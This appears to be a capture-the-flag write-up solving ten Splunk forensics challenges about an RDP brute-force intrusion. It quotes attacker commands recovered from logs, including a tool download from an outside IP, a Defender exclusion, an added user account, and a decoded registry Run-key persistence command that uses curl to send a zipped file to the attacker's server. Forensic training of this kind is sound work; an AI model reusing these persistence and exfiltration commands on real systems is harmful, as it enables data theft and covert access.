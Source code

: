first we got an OVF file to run in vmware, as a setup for our Splunk, together with its credentials `ihack24:root`

![alt text](images/image.png)

after logging in you need to check your vm's ip and make sure your network setup is properly configured, for me i'm using NAT

![alt text](images/image-1.png)

after running `ifconfig` to grab the vm's ip we can now take a look at its splunk setup by going to `{vm's ip}:8000` in our host machine browser

![alt text](images/image-2.png)

in the provided question the splunk creds provided is `player:beg_to_dfir`

![alt text](images/image-3.png)

now to take a look at the vm's splunk data just go to common task > search your data > query `index=*` > change presets from `last 24 hours` to `All Time`

![alt text](images/image-4.png)

## Happy SPLUNKing #1

from the first question here is what we need to focus on:-
- RDP Brute Force Attack
- Timestamp 23rd July
- find victim user account and its ip

referring to this cheatsheet (https://www.socinvestigation.com/windows-rdp-event-ids-cheatsheet/) that I found, failed attempt to login is apart of EventCode `4625` which is related rdp failure logon status

therefore in the query presets change to last 7 days, filter EventCode `4625` and scroll all the way to 23rd July

query `index=* EventCode=4625`

![alt text](images/image-5.png)

here what we got is the username of the victim which is `admin` to find its source ip go to query and search for admin

query `index=* admin`

![alt text](images/image-6.png)

as you can see there is the ip `192.168.8.52`

flag `ihack24{admin:192.168.8.52}`

## Happy SPLUNKing #2

find ip attacker

query `index=* EventCode=4625`

![alt text](images/image-7.png)

flag `ihack24{192.168.8.41}`

## Happy SPLUNKing #3

find TimeStamp access login

referring to the cheatsheets success login rdp EventCode is `4624` therefore add it to the query

query `index=* (EventCode=4624 OR EventCode=4625)`, find out when the EventCode changes that is going to be the timestamp

![alt text](images/image-8.png)

flag `ihack24{07/23/2024 09:55:52 PM}`

## Happy SPLUNKing #4

find attacker's first command after attack

include the CommandLine filter in the query search, and add cmd to filer the cmd.exe ParentImage

query `index=* cmd CommandLine=*` 

at this timestamp this is not actually the command that the attacker first attack it is used to execute cmd.exe

![alt text](images/image-9.png)

at this timestamp is actually the command that the attacker used

![alt text](images/image-10.png)

flag `ihack24{systeminfo}`

## Happy SPLUNKing #5

find the path being excluded from detection of Windows Defender

here is the part of PowerShell parameter to exclude a directory, therefore just filter it

![alt text](images/image-11.png)

query `index=* exclusionpath`

viola

![alt text](images/image-12.png)

`flag ihack24{C:\Windows\microsoft}`

## Happy SPLUNKing #6

find backdoor ip address

at the same query, but when scrolling down there is an interesting PowerShell command executed by the attacker, using the url with ip `157.230.33.7`

`Invoke-WebRequest -Uri "http://157.230.33.7:8080/nmap.exe" -OutFile "nmap.exe"`

![alt text](images/image-13.png)

filtering it at the query we found this, the attacker sent something to that IP, probably the information of the victim's machine, therefore we concluded that will be the backdoor IP

![alt text](images/image-14.png)

flag `ihack24{157.230.33.7}`

## Happy SPLUNKing #7

find data that has been exfilterated

looking at the previous image it also includes the filename and extension that has been exfiltrated, therefore the flag is

flag `ihack24{DESKTOP-9O75B7U.zip}`

## Happy SPLUNKing #8

tools dropped by attacker to find other host

from the previous inspection (Happy SPLUNKing #6) we stumble across nmap.exe, researching on the internet, it is confirmed that, nmap is capable of doing network inspection

![alt text](images/image-15.png)

flag `ihack24{nmap.exe}`

## Happy SPLUNKing #9

find out the user and password the attacker added

when adding a new user in windows, the command always contains `add` therefore just filter it with CommandLine fields together with the word `add`

query `index=* CommandLine=* add`

![alt text](images/image-16.png)

flag `ihack24{operator:operator123}`

## Happy SPLUNKing #10

attacker command used for persistence

when filtering the the ip address of `157.230.33.7` to investigate the backdoor ip address further, luckily we found a strange (obsufcated?) PowerShell command

![alt text](images/image-18.png)

`&( $shEllid[1]+$SheLLid[13]+'x')` -> decodes to iex, which is also known as `Invoke-Expression` in PowerShell

`(-JOin (( 68, 83, ... 25,80 )))` -> joins the array of numbers into a single string, and it is also processed inside the `ForEACh-oBJeCT` block

`ForEACh-oBJeCt{[CHAR] ( $_-BxoR "0x36")}` basically a bitwise XOR command with `0x36` on each number in the array

create a python script to decode it

```python
numbers = [
    68, 83, 81, 22, 87, 82, 82, 22, 17, 126, 125, 122, 123, 106, 101, 89, 80, 66, 65, 87, 68, 83, 106, 123, 95, 85, 
    68, 89, 69, 89, 80, 66, 106, 97, 95, 88, 82, 89, 65, 69, 106, 117, 67, 68, 68, 83, 88, 66, 96, 83, 68, 69, 95, 
    89, 88, 106, 100, 67, 88, 17, 22, 25, 64, 22, 68, 83, 70, 89, 68, 66, 22, 25, 66, 22, 100, 115, 113, 105, 101, 
    108, 22, 25, 82, 22, 17, 85, 91, 82, 24, 83, 78, 83, 22, 25, 85, 22, 85, 67, 68, 90, 22, 27, 110, 102, 121, 101, 
    98, 22, 7, 3, 1, 24, 4, 5, 6, 24, 5, 5, 24, 1, 25, 67, 70, 90, 89, 87, 82, 22, 27, 112, 22, 80, 95, 90, 83, 69, 
    11, 118, 117, 12, 106, 99, 69, 83, 68, 69, 106, 87, 82, 91, 95, 88, 106, 114, 89, 85, 67, 91, 83, 88, 66, 69, 
    106, 114, 115, 101, 125, 98, 121, 102, 27, 15, 121, 1, 3, 116, 1, 99, 24, 76, 95, 70, 17, 22, 25, 80
]

decoded_message = ''.join([chr(num ^ 0x36) for num in numbers])
print(decoded_message)
```

flag `ihack24{'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}`

